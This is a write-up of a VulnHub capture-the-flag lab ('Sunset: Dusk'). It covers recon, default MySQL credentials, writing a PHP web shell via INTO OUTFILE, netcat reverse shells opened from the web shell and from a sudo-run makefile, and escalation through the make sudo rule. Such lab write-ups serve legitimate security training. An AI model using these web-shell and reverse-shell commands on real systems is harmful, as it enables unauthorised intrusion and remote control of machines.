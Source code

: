 # Sunset: Dusk

https://www.vulnhub.com/entry/sunset-dusk,404/

## Reconnaissance

An intense nmap scan revealed:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.53.6:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b5:ff:69:2a:03:fd:6d:04:ed:2a:06:aa:bf:b2:6a:7c (RSA)
|   256 0b:6f:20:d6:7c:6c:84:be:d8:40:61:69:a2:c6:e8:8a (ECDSA)
|_  256 85:ff:47:d9:92:50:cb:f7:44:6c:b4:f4:5c:e9:1c:ed (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: dusk.dusk, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=dusk.dusk
| Subject Alternative Name: DNS:dusk.dusk
| Not valid before: 2019-11-27T21:09:14
|_Not valid after:  2029-11-24T21:09:14
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 40
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, Support41Auth, Speaks41ProtocolNew, SupportsLoadDataLocal, SupportsTransactions, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, IgnoreSigpipes, Speaks41ProtocolOld, ODBCClient, FoundRows, LongColumnFlag, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: AcN=%B[&HyJDTZF2e'0[
|_  Auth Plugin Name: mysql_native_password
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.11-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host:  dusk.dusk; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80 is just the default debian page again, but 8080 seems to be a php server running off /var/tmp, listing its files and running the index.php file there. Looks pretty juicy. nikto on either failed: nothing interesting on the default page, and 8080 is basically just a ftp listing.

Speaking of, ftp did not allow anonymous access. Neither did the mysql endpoint. Playing around with SMTP didn't achieve much. Ultimately a scan with legion, and a check for default credentials, revealed mysql used `root:password`. 

## MySQL to create php shell, then reverse netcat.

The following command got me in to mysql: `mysql -u root -p -h 192.168.53.6` followed by entering the password `password`.

I browsed around for a bit, but found nothing. However, given the :8080 site was a PHP cli site which helpfully listed its exact location on the page, I tried the 'into outfile' trick and it worked:

```
MariaDB [(none)]> select '<?php system($_GET["cmd"]); ?>' into outfile '/var/tmp/cmd.php';
Query OK, 1 row affected (0.001 sec)
```

Then going to the php site, sure enough cmd.php was there. Browsing to it with `192.168.53.6:8080/cmd.php?cmd=ls` ran ls successfully. Time for a reverse netcat shell!

`192.168.53.6:8080/cmd.php?cmd=nc%20192.168.53.4%204444%20-e%20/bin/bash` plus `nc -nvlp 4444` in another prompt got me a reverse nc, then `python -c "import pty;pty.spawn('/bin/bash');"` got me a nice shell.

## On machine enumeration

As `www-data`, I ran `sudo -l`:

```
Matching Defaults entries for www-data on dusk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dusk:
    (dusk) NOPASSWD: /usr/bin/ping, /usr/bin/make, /usr/bin/sl
```

`ping` and `sl` won't provide anything. `make` looked promising, but even though I can execute commands with it they don't run as dusk, just me as www-data.

## Server resetting (a dead end)

However, given this server has smtp, I browsed to /var/spool/mail and found three files, for dusk, root and www-data. I copied this into /var/tmp so I could read it better, and it contains many messages that are identical (except for time):

```
From www-data@dusk.dusk  Sat Nov 30 17:50:02 2019
Return-Path: <www-data@dusk.dusk>
X-Original-To: www-data
Delivered-To: www-data@dusk.dusk
Received: by dusk.dusk (Postfix, from userid 33)
	id 17C671824; Sat, 30 Nov 2019 17:50:01 -0500 (EST)
From: root@dusk.dusk (Cron Daemon)
To: www-data@dusk.dusk
Subject: Cron <www-data@dusk> /usr/bin/php -S 192.168.1.167:8080 -t /tmp
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/var/www>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=www-data>
Message-Id: <20191130225002.17C671824@dusk.dusk>
Date: Sat, 30 Nov 2019 17:50:01 -0500 (EST)

[Sat Nov 30 17:50:01 2019] Failed to listen on 192.168.1.167:8080 (reason: Address already in use)
```

Later it switches the dir from /tmp/ to /var/tmp. There was an email every minute. 

To me, this looked like dusk is trying to start a php webserver, but can't because www-data already has.

I ran `ps -U www-data -o "%P %c %a"` to see the running commands www-data has done:

```
PPID COMMAND         COMMAND
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
 1141 sh              /bin/sh -c /usr/bin/php -S 0.0.0.0:8080 -t /var/tmp
 1143 php             /usr/bin/php -S 0.0.0.0:8080 -t /var/tmp
  651 apache2         /usr/sbin/apache2 -k start
 1146 sh              sh -c nc 192.168.1.3 4444 -e /bin/bash
 1517 bash            bash
 1518 python          python -c import pty;pty.spawn('/bin/bash');
 1528 bash            /bin/bash
 1529 ps              ps -U www-data -o %P %c %a
```

In theory, if I killed `1141` or `1143`, above, then the cron job should start a new server as dusk, right?

Before trying, I ran `/usr/bin/php -S 0.0.0.0:8081 -t /var/tmp` to start a secondary server as www-data.

When I killed the server, it came back shortly. Doing a whoami, however, revealed it was still www-data. Relooking at the mail message, and examining the new logs, I saw it was actually restarting the server for www-data, not dusk /facepalm

## Learning how sudo works, again

I went back to look at make, which sudo -l told me I could use. It said (dusk) NOPASSWD, so why was I getting a sudo prompt when I ran it with sudo /usr/bin/make? Eventually I figured it out: sudo -l was telling me I could use sudo to act as dusk for the command, but I needed to specify dusk when running sudo!

I created a makefile for a reverse netcat using `printf "all:\n\tnc 192.168.1.3 6666 -e /bin/bash" > makefile`, then ran it with `sudo -u dusk /usr/bin/make`, and sure enough it worked and I had a dusk shell :D
